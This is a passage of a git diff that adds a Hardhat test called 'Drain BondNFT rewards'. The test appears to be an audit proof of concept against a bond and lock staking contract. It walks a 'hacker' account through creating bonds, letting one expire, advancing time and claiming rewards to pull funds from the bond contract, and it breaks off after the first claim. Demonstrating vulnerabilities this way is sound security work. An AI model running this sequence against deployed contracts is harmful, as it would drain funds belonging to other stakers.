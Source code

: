 ```javascript
diff --git a/test/09.Bonds.js b/test/09.Bonds.js
index 16c3ff5..7c445c3 100644
--- a/test/09.Bonds.js
+++ b/test/09.Bonds.js
@@ -245,7 +245,90 @@ describe("Bonds", function () {
       await lock.connect(user).release(2);
       expect(await bond.pending(1)).to.be.equals("999999999999999999725"); // Negligable difference from 1000e18 due to solidity division
     });
+
+    it.only("Drain BondNFT rewards", async function () {
+      const getState = async () => {
+        const balHacker= await stabletoken.balanceOf(hacker.address);
+        const balLock = await stabletoken.balanceOf(lock.address);
+        const balBond = await stabletoken.balanceOf(bond.address);
+        const [pending1, pending2, pending3] = [await bond.pending(1), await bond.pending(2), await bond.pending(3)];
+        return { hacker: balHacker, lock: balLock, bond: balBond, pending1, pending2, pending3};
+      };
+      const parseEther = (v) => ethers.utils.parseEther(v.toString());
+      const gwei = parseEther(1).div(1e9);
+
+      // prepare tokens
+      const TotalRewards = parseEther(8000);
+      await stabletoken.connect(owner).mintFor(owner.address, TotalRewards);
+      await stabletoken.connect(owner).mintFor(user.address, parseEther(1000));
+      const hacker = rndAddress;
+      await stabletoken.connect(owner).mintFor(hacker.address, parseEther(2000+700));
+      await stabletoken.connect(hacker).approve(Lock.address, parseEther(2000));
+
+      // bond1 - user
+      await lock.connect(user).lock(StableToken.address, parseEther(1000), 100);
+      await bond.distribute(stabletoken.address, parseEther(3800));
+      expect(await bond.pending(1)).to.be.closeTo(parseEther(3800), gwei);
+      // Skip some time
+      await network.provider.send("evm_increaseTime", [20*86400]);
+      await network.provider.send("evm_mine");
+
+      // bond2 - hacker
+      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 10);
+      // bond3 - hacker
+      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 100);
+
+      await bond.distribute(stabletoken.address, parseEther(2100));
+
+      // Skip 10+ days, bond2 is expired
+      await network.provider.send("evm_increaseTime", [13*86400]);
+      await network.provider.send("evm_mine");
+      await bond.distribute(stabletoken.address, parseEther(2100));
+
+      // check balances before hack
+      let st = await getState();
+      expect(st.bond).to.be.equals(TotalRewards);
+      expect(st.lock).to.be.equals(parseEther(3000));
+      expect(st.hacker).to.be.equals(parseEther(0+700));
+      expect(st.pending1).to.be.closeTo(parseEther(3800+1000+1000), gwei);
+      expect(st.pending2).to.be.closeTo(parseEther(100), gwei);
+      expect(st.pending3).to.be.closeTo(parseEther(1000+1000), gwei);
+
+      // first claim of expired bond2
+      await lock.connect(hacker).claim(2);
+      st = await getState();
+      expect(st.bond).to.be.closeTo(TotalRewards.sub(parseEther(100)), gwei);
```